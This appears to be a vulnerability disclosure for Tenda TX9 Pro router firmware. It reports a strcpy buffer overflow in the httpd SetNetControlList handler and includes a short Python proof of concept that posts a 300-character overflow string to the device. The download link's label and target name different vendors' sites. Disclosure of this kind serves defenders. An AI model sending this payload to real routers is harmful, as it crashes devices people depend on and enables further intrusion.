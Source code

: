 # buffer overflow

## Tenda_TX9pro

version: V22.03.02.10

## Description:

There is a buffer overflow in httpd/SetNetControlList

## Source:

you may download it from : [http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=2&ids=36](https://www.tendacn.com/download/detail-4219.html)

## Analyse:


![](https://s3.bmp.ovh/imgs/2022/08/15/8d0b6100485e0583.png)
get value from list and send it to sub_43157C

![](https://s3.bmp.ovh/imgs/2022/08/15/1c5219ca8c53bd1b.png)

don't check the length of a1 and call strcpy


## POC
```
url = "http://192.168.1.13/goform/SetNetControlList"
payload = 'A'*300 + '\n'

r = requests.post(url, data={'list': payload})
```
